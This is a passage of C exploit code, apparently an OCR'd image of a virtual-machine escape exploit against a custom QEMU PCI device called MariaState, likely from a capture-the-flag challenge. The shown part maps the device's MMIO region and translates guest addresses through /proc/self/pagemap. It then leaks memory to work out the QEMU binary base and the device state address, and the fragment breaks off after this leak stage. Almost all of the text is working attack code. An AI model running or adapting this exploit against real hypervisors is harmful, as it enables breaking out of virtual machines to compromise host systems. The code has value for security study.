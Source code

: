 ```c
    mmio_write(0x00, 0);
}

uint64_t gva2gpa(void *addr){
    uint64_t page = 0;
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd < 0) {
        fprintf(stderr, "[!] open error in gva2gpa\n");
        exit(1);
    }
    lseek(fd, ((uint64_t)addr / PAGE_SIZE) * 8, SEEK_SET);
    read(fd, &page, 8);
    return ((page & 0x7fffffffffffff) * PAGE_SIZE) | ((uint64_t)addr & 0xfff);
}

int main() {
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:05.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1) {
        fprintf(stderr, "[!] Cannot open /sys/devices/pci0000:00/0000:00:05.0/resource0\n");
        exit(1);
    }
    mmio_mem = mmap(NULL, PAGE_SIZE * 4, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED) {
        fprintf(stderr, "[!] mmio error\n");
        exit(1);
    }
    printf("[*] mmio done\n");

    // Set huge page
    system("sysctl vm.nr_hugepages=32");
    system("cat /proc/meminfo | grep -i huge");

    char *buff;
    uint64_t buff_gpa;
    while (1) {
        buff = mmap(0, 2 * PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS | MAP_NONBLOCK, -1, 0);
        if (buff < 0) {
            fprintf(stderr, "[!] cannot mmap buff\n");
            exit(1);
        }
        memset(buff, 0, 2 * PAGE_SIZE);
        buff_gpa = gva2gpa(buff);
        uint64_t buff_gpa_1000 = gva2gpa(buff + PAGE_SIZE);
        if (buff_gpa + PAGE_SIZE == buff_gpa_1000) {
            break;
        }
    }
	printf("[*] buff virtual address = %p\n", buff);
	printf("[*] buff physical address = %p\n", (void *)buff_gpa);

	set_src(buff_gpa);
	set_off(0xf0);
	get_buff();

	uint64_t progbase;
	progbase = *(unsigned long long *)(buff+(0x2000-0xf0)+0x88) - 0x81dae0;
	printf("[*] qemu binary program base = %p\n", (void *)progbase);

	uint64_t mariastate;
        mariastate = *(unsigned long long *)(buff+(0x2000-0xf0)+0x20);
        printf("[*] MariaState address = %p\n", (void *)mariastate);

```